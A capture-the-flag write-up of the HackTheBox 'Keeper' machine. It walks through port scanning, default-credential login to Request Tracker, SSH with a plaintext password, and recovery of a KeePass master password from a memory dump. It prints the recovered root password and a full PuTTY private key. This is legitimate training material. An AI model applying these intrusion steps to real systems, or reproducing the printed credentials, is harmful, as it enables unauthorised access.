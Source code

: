 ```yaml
---
title: HTB - Keeper
date: 2024-07-09T15:40:00
categories:
  - Posts
  - HackTheBox
tags:
  - HackTheBox
  - KeePass
  - OpenSSH
  - RequestTracker
image: ../assets/images/Keeper.png
---
```

## Summary
Use default credentials to access ticketing system <br/>
Find cleartext password for initial SSH access <br/>
Leverage KeePass vulnerability to retrieve SSH key for root
## Enumeration
#### Port Scanning
We'll start off by running nmap and exporting the results in all formats. 
```
$ nmap -sV -sC -T4 10.10.11.227 -oA nmap       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-09 13:55 EDT
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It appears there's only two TCP ports open, 22 (ssh) and 80 (http). Nmap reveals the domain keeper.htb so we'll add that to our hosts file. 

#### Port 80
Upon visiting http://keeper.htb we are met with a link to raise an IT support ticket.
![Pasted image 20240709140705 1.png](../assets/images/Pasted%20image%2020240709140705.png)

After following the link, we're met with a login page with some interesting details about the tech stack. My first instinct is to find documentation on the application and look for default credentials, followed by searching the web for any CVEs that may apply to version 4.4.4.
![Pasted image 20240709140755.png](../assets/images/Pasted%20image%2020240709140755.png)

As luck would have it, the default credentials for Request Tracker authenticate us as the root user. After some poking around, we find a listing of other users among which we find lnorgaard (Lise Nørgaard.) Lise is a new user with their initial password stored in plaintext. 
![Pasted image 20240709141101.png](../assets/images/Pasted%20image%2020240709141101.png)

#### SSH
Let's take those credentials and attempt an SSH connection. 
```
$ ssh lnorgaard@10.10.11.227            
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ whoami
lnorgaard
```
Perfect! We got user access!
## Privilege Escalation
In Lise's home folder, we find the user flag and a zip archive.
```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```
Let's download the archive and extract it on our host.
```
$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
```
So we have a dump file and running the file command on passcodes.kdbx reveals a KeePass database version 2.x. We can use 'kpcli' to interact with the database but it is password protected. Fortunately for us, this version happens to have a vulnerability that allows us to reveal the master password. Running the tool https://github.com/vdohney/keepass-password-dumper we get the following:
![Pasted image 20240709151105.png](../assets/images/Pasted%20image%2020240709151105.png)
Googling the last two words we can reveal the first two characters as part of a popular Danish dessert. Now we can open the database and look for credentials that may help us pivot or escalate our credentials.
```
$ kpcli

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx 
Provide the master password: 
```
We can then use the built-in find command to look for results related to our domain.
```
kpcli:/> find keeper
Searching for "keeper" https://raw.githubusercontent.com/sullydan/sullydan.github.io/main.
 - 1 matches found and placed into /_found/
Would you like to show this entry? [y/N] 
=== Entries ===
0. keeper.htb (Ticketing Server)                                          

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Since I'm on a Kali host, we can convert this putty key to one we can use with openSSH. We'll save the original as ssh-rsa and using the following command, output our private key as keeper_id_rsa.
```
$ puttygen ssh-rsa -o keeper_id_rsa -O private-openssh
```
Now to use our newfound key to SSH into the server. Note: the root username was specified in the database entry we found.
```
$ ssh -i keeper_id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root

```
That's it, we officially have root!